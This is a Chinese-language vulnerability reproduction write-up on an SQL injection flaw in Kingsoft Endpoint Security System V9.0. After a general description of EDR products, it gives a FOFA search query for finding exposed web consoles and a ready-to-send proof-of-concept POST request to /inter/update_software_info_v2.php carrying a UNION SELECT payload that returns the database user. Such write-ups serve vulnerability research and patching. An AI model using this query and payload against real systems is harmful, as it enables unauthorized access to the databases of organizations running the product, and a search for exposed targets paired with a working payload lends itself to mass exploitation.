


# 金山终端安全系统V9.0 SQL注入漏洞复现

## 1.金山终端安全系统介绍

EDR（终端检测与响应）安全设备是一种用于保护计算机终端的安全解决方案。它的作用主要包括以下几个方面：

1. **检测威胁**: EDR 能够监控终端设备上的各种活动，包括文件系统、进程、网络连接等，以识别潜在的威胁行为。它可以检测到各种类型的恶意软件，如病毒、木马、勒索软件等，以及高级持续性威胁（APT）等复杂的攻击。
2. **响应安全事件**: EDR 不仅可以检测威胁，还可以立即采取措施响应安全事件。这可能包括阻止恶意进程、隔离受感染的终端、清除恶意文件等操作，以尽快遏制威胁的扩散，减少损失。
3. **调查和分析**: EDR 提供了丰富的事件记录和数据分析功能，可以帮助安全团队进行调查和分析安全事件。这包括分析攻击路径、确定受影响的系统、找出攻击者的行为模式等，有助于更好地理解威胁并提出有效的应对方案。
4. **安全可见性**: EDR 提供了对终端设备的全面可见性，可以实时监控设备的状态和行为，帮助管理员发现并解决安全问题。

## 2.漏洞概述

金山终端安全系统V9.0 `/inter/update_software_info_v2.php`页面存在sql注入漏洞，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

## 3.漏洞复现

FOFA：title=="用户登录-金山终端安全系统V9.0Web控制台"


poc：

```
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```



